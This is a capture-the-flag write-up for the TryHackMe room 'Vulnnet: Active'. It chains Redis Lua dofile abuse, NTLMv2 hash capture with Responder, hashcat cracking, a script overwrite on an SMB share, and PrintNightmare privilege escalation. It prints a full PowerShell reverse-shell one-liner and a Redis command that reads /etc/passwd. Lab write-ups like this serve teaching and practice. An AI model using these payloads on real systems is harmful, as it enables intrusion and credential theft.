 # Vulnnet: Active

https://tryhackme.com/room/vulnnetactive

I found this room very hard, with a bunch of new techniques I haven't seen before. So worth writing up.

1. Enumeration reveals a bunch of ports, though notably no web port, ssh or rdp. Even though its a windows machine, the only interaction seems to be via SMB and an exposed Redis instance on 6379.
2. The Redis instance was running version 2.8, and did not require authentication. It contained no keys of note. However, this version of Redis contains a 'vulnerability' where you can use 'dofile' in the LUA sandbox, allowing you to access files or network shares. E.g. `EVAL "dofile('/etc/passwd')" 0` would work on a linux machine.
3. For a windows machine, notably, this can be used to access network shares. Which means, if I set up responder, I might be able to catch a hash.
4. Setting up responder from this repo (the new version, 3.0+, not the kali default version), https://github.com/lgandx/Responder, then using something like `EVAL "dofile('//yourip//share')" 0` will catch an NTMLv2 hash.
5. This can be cracked using hashcat, using -m 5600 and rockyou, to reveal the password for user 'enterprise-security'.
6. With the username and password, the shares can be enumerated with smbclient revealing and accessing 'enterprise-share'. In here is a powershell file, named purge...ps1
7. By replacing this file with a new one containing a rev shell payload, a rev shell can be established. I used the following payload:

```
$client = New-Object System.Net.Sockets.TCPClient('10.4.0.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Simply place this in a file with the same name as the script, and put onto the share (it will overrite the existing one). Then set up a listener and wait.

8. The rev shell will be established momentarily. However, to improve it, generate a msfvenom rev shell (windows/x64/shell_reverse_tcp), upload it to the share, then run it with your rev shell. This will grant a more stable shell that also correctly outputs stderror.
9. The intended path to privesc looks to be GPO abuse: https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/ and using a tool like https://labs.f-secure.com/tools/sharpgpoabuse. However I couldn't a) fully understand this and b) get sharpgpoabuse working (likely because I was using the basic rev shell). Instead, print nightmare works
10. This version of print nightmare is a simple powershell script: https://github.com/calebstewart/CVE-2021-1675. Upload it using the share, then import it and run it as shown on the readme. It will quickly generate a user (if run with no args, this will be the user `adm1n`, note the `1`).
11. To get the final flag, the new user can be used with the share `c$` to enumerate the system fully.

Learned a bit with this room! I think I was initially stuck thinking it was some sort of AD enumeration... which with the gpo policy it probably is. Bah. Nice to try PrintNightmare and responder anyway, the latter being rare in my experience with CTFs.
